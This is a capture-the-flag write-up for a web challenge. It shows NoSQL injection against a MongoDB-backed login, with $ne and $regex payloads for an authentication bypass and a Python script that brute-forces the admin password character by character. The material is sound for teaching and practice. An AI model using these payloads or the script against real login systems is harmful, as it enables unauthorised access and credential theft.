





# Wild Goose Hunt

The description for this challenge is as follows:

*Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?
This challenge will raise 43 euros for a good cause.*

This is a web challenge that was rated at two of four stars, though it was definitely one of the easiest two star web challenges. 

**TL;DR Solution:** Use NoSQL injection to derive the admin's password character by character.

When we initally open the page, we see a straightforward login page.



For this challenge, we were given all of the sourcecode for the page. In this case, the most file was entrypoint.sh, which showed use that MongoDB (also called Mongoose, so relevant to the title) was used to create an entry in a users table. The username is admin, and the password is the flag:
```
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh
mkdir /tmp/mongodb
mongod --noauth --dbpath /tmp/mongodb/ &
sleep 2
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
/usr/bin/supervisord -c /etc/supervisord.conf
```
This immediately made me think of trying some sort of NoSQL injection. I had never done this before, but the following page gave me some good ideas:  https://www.acunetix.com/blog/web-security-zone/nosql-injections/

Basically, I started by trying the payload:
```
username[$eq]=admin&password[$ne]=foo
```
This is designed to let me if the username is admin and the password is **not** equal to foo.I just sent it in by editing my request within firefox:


And the result is that I appear to have logged in successfully, but there is no flag in sight. It looks like I will have to figure out how to actually derive the password.


Eventually, I realized that instead of using $ne with the password, I could do pattern matching with $regex. I came up with a simple payload designed to work if the password string matches the format of CHTB\{.*\}, the standard flag format with a wildcard in the middle, and the curly brackets escaped to avoid causing an error. The payload is here:
```
username[$eq]=admin&password[$regex]=CHTB\{.*\}
```
And it worked!


I ended up creating a python script to break the password character by character by exploiting this result with regex. The basic idea is to start at the beginning of the password with a single character value and work through possible characters until you get the successful login result. Then you move onto the next character until you hit the end. Note that you can derive the login url to use with the script by looking at the url to which requests are made for requests that were attempted logins. I also ended up escaping or removing several printable characters because they were effectively acting as code in an unintended manner. The script I used is below:

```
import requests
import string
import json

print(string.printable)

url = "http://138.68.177.159:30114/api/login"
soFar = ""
use = list(string.printable)
use.sort()
use.remove("'")
use.remove("\"")
use.remove("\\")
use.remove("+")
use.append("\\+")
use.remove(".")
use.append("\\.")
use.remove("*")
use.append("\\*")
use.remove("?")
use.append("\\?")
use.remove("|")
use.append("\\|")

use = use[5:]
print(use)

while True:
    for k in use:
        #k = ''
        details = {"username[$eq]": "admin", "password[$regex]": "CHTB\{%s%s.*\}"%\
                (soFar, k)}
        print(details)
        response = requests.post(url, data = details)
        print(response.text)
        if "Failed" not in response.text:
            print("FOUND ONE!", k)
            soFar = soFar + k
            print(soFar)

```
The result was a slowly growing flag in the terminal iterating over each character before hitting a match and moving on. When I finally hit the password, my screen looked like this:



The flag is CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}


